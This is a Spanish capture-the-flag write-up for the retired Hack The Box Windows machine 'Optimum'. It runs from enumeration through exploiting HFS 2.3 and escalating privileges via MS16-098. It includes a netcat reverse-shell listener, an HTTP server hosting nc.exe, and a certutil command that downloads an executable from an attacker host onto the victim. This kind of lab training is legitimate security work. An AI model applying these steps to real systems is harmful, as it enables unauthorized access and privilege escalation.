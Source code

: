 # Optimum

![](./images/optimum.png)

**Índice**   
1. [Overview](#id1)
2. [Enumeración](#id2)
3. [Explotación](#id3)
4. [Priviledge Escalation](#id4)

#
## 1. Overview<a name="id1"></a>

|OS|Difficulty|Machine State|Vector|Priviledge Escalation|
|-|-|-|-|-|
|Windows|Easy|Retired|||


#
## 2. Enumeración<a name="id1"></a>

### 2.1 Nmap

* Se realiza un escaneo con **tcp port syns scan** jugando con el **min-rate** para emitir paquetes no mas lentos que 5000 paquetes por segundo. Durante el escaneo se aprecia que el puerto 80 está abierto, por lo que se utiliza **whatweb** para realizar un primer vistazo a la página.

* Whatweb revela que se trata de servicio HFS 2.3.

* Con searchexploit buscamos algun exploit vulnerable.

Nota: Buscar tanto por HFS como por sus HTTP File Server.

![](./images/hfs.png)

#
## 3. Explotación<a name="id2"></a>

### 3.1 HFS

* Se ejecuta el exploit localizado 39161. Viendo las instrucciones, es necesario compartir un nc.exe mediante un servicio HTTP. 

* El exploit es necesario ejecutarlo minimo 2 veces

```bash
python -m http.server
```

```bash
nc -lvnp
```

![](./images/exploit.png)

* Finalmente, se obtiene una shell como Kostas (usuario local)

#
## 4. Priviledge Escalation<a name="id2"></a>

* Se realiza una enumeracion inicial con el usuario kostas. En primer lugar, se ejecuta **systeminfo** para saber ante que estamos.

### 4.1 Windows-Exploit-Suggester

* La salida de **systeminfo** se puede incorpora en el scripts **Windows-Exploit-Sugester**.

* Este es un script que permite enumerar de forma rápida y pasiva ante que exploit es vulnerable la máquina.

* La salida revela que la máquina es vulnerable a MS16-098.

![](./images/sugester.png)

### 4.2 MS16-098

* La propia herramienta sumistra el enlace de exploit-db. 

* Para encontar un ejecutable, se recomienda utiliza el propio repositorio de offensive security, https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits/[num_exploitdb].[ext].

* Una vez descargado se comparte el compilado con 

```bash
python -m http.server
``` 

* Desde la máquina víctima se ejecuta certutil.

```bash
certutil.exe -urlcache -f http://[IP]/[name_src].exe [name_dst].exe
```

https://www.ired.team/offensive-security/defense-evasion/downloading-file-with-certutil

![](./images/elevate.png)
